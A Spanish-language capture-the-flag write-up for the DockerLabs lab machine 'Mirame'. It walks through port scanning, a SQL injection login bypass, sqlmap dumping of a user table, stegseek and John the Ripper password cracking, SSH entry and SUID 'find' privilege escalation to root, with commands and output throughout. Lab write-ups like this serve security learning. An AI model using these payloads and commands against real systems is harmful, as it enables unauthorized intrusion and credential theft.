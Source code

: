 # MIRAME

Hoy maquina de [dockerlabs](https://dockerlabs.es)

![dockerlabs](../../../maquina-mirame/imagenes/mirame.png)

Autor:yo(maciiii\_\_\_)

Dificultad: Fácil

## INTRUSION

Comenzamos haciendo un escaneo de nmap

```css
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.3
```

```ruby
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 17:09 -03
Initiating ARP Ping Scan at 17:09
Scanning 172.17.0.3 [1 port]
Completed ARP Ping Scan at 17:09, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:09
Scanning 172.17.0.3 [65535 ports]
Discovered open port 80/tcp on 172.17.0.3
Discovered open port 22/tcp on 172.17.0.3
Completed SYN Stealth Scan at 17:09, 1.68s elapsed (65535 total ports)
Nmap scan report for 172.17.0.3
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-08-10 17:09:34 -03 for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:03 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

No se ve nada interesante mas que el puerto 22 pero por ahora no nos interesa.

Continuamos por el navegador y vemos esto:

**PUERTO 80:**

![puerto80](../../../maquina-mirame/imagenes/puerto80.png)

Al perecer es un panel de login, por lo que probaremos con las credenciales típicas: `admin:admin`

`root:root`

pero como ninguna funciona podemos pasar a probar poner una comilla `'` si nos da el error significa que estamos frente a SQLi. Al probar nos da el siguiente error:

![error](../../../maquina-mirame/imagenes/error.png)

Sabiendo esto podriamos intentar nuevamente con el usuario admin pero poniendo `admin'or 1=1-- -` como usuario y de contraseña lo que sea. Una vez hecho veremos un panel que nos deja consultar el clima, pero al no tener nada interesante tendremos que usar sqlmap.

Para sqlmap pondremos en el terminal:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch --dbs
```

lo que nos dice que hay dos bases de datos:

```mysql
available databases [2]:
[*] information_schema
[*] users
```

La que nos interesa a nosotros es la `users` por lo que ahora pondremos:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch -D users --tables
```

lo que nos mostrará las tablas de la base de datos `users`.

```mysql
Database: users
[1 table]
+----------+
| usuarios |
+----------+
```

El comando nos dice que hay una tabla llamada usuarios, por lo que ahora listaremos la tabla con:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch -D users -T usuarios --dump
```

```mysql
Database: users
Table: usuarios
[4 entries]
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+

```

Ya teniendo todos los usuarios, vemos que hay uno medio anormal llamado `directorio:directoriotravieso`, ya que no parece un nombre común y se llama directorio, podriamos entrar desde el navegador a "directorios" y "directoriotravieso".

Luego de entrar a ambos, el único que si existe es "directoriotravieso", y dentro tiene una imagen, la descargamos y hacemos Esteganografía. Para hacerlo, podemos usar la herramienta `steghide`, con el comando:

```css
steghide extract -sf miramebien.jpg
```

Al ejecutar el comando, nos pide un salvoconducto, pero como no lo tenemos le damos al enter. Como no podemos extraer nada, podemos tratar de hacer un ataque de diccionario al archivo con la herramienta `stegseek` usando el comando:

```css
stegseek extract -sf miramebien.jpg -wl /usr/share/wordlists/rockyou.txt
```

```css
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "chocolate"
[i] Original filename: "ocultito.zip".
[i] Extracting to "miramebien.jpg.out".
```

Vemos que dentro hay un .zip llamado "ocultito.zip" y que el salvoconducto es "chocolate", por lo que volvemos a ejecutar `steghide` y esta vez ponemos el salvoconducto "chocolate".

Esto nos deja un .zip el cual si intentamos extraer tiene contraseña, por lo que tendremos que utiliza `zip2john`para extraer el hash y luego crackearlo usando la herramienta `john the ripper`. Ejecutamos lo siguiente:

```css
zip2john ocultito.zip > hash.txt
```

Y luego

```css
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

con esto ya tenemos la contraseña del zip:

```abap
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stupid1          (ocultito.zip/secret.txt)     
1g 0:00:00:00 DONE (2024-08-10 17:33) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Vemos que la contraseña del zip es "stupid1", por lo que ahora si podemos extraerlo usando el comando `unzip ocultito.zip` y poniendo la contraseña.

Esto nos deja un .txt llamado "secret.txt" que al parecer tiene la contraseña del ssh, lo probamos con `ssh carlos@172.17.0.3` y listo, estamos dentro.

## ESCALADA DE PRIVILEGIOS

Ahora somos el usuario `carlos` por lo que nos fijamos si podemos ejecutar algo con sudo usando `sudo -l` y nada. Por lo que veremos si hay algún binario que podamos aprovechar en el SUID, para verlo ejecutamos:

```abap
find / -perm -4000 2>/dev/null
```

```css
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
/usr/bin/chsh
/usr/bin/find
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
```

Como vemos, esta el binario `find`, si buscamos en [GTFObins](https://gtfobins.github.io) vemos que podemos aprovecharnos de el para escalar usando el comando:

```ruby
/usr/bin/find . -exec /bin/sh -p \; -quit
```

Al usarlo escalamos a root.

![root](../../../maquina-mirame/imagenes/root.png)
